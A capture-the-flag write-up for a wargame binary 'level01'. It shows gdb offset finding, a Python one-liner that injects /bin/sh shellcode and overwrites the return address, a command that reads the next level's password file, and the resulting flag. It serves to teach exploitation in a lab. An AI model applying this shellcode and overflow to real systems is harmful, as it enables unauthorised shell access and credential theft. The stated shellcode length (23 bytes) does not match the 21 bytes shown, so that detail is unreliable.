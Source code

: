 
# Level01 Challenge Solution

### . Determine the Offset
Using `gdb` with a cyclic pattern:
```bash
gdb ./level01
pwndbg> cyclic 200
pwndbg> run
# Enter username: "dat_wil"
# Enter password: [cyclic pattern]
```
The program crashes at `0x61616175` ("uaaa"):
```bash
pwndbg> cyclic -l uaaa
80
```
**Offset to EIP: 80 bytes**

## Exploit Summary
This exploit bypasses authentication and spawns a shell by:
1. Passing the username check with `"dat_wil"`
2. Injecting shellcode into memory
3. Overflowing the password buffer to hijack execution

## Modified Exploit Command
```python
python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'B'*80 + '\x47\xa0\x04\x08'" > /tmp/abderrafie
```

### Key Changes:
1. **Output File**: `/tmp/abderrafie` (formerly `/tmp/inj01`)
2. **Padding**: Replaced cyclic pattern with `'B'*80` for simplicity

## Components Explained

| Part | Content | Purpose |
|------|---------|---------|
| Username | `dat_wil` | Bypasses the username check |
| Shellcode | `\x6a\x0b\x58...` | Spawns `/bin/sh` (23 bytes) |
| Newline | `\n` | Separates username/password inputs |
| Padding | `'B'*80` | Fills buffer until EIP overwrite |
| EIP | `\x47\xa0\x04\x08` | Jumps to shellcode at `0x0804a047` |

## Execution
```bash
cat /tmp/abderrafie - | ./level01
```
- **Expected Result**: Opens a shell with `level02` privileges

## Post-Exploit
Retrieve the password for the next level:
```bash
cat /home/users/level02/.pass
```

---

### the password for the next level is:
```
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
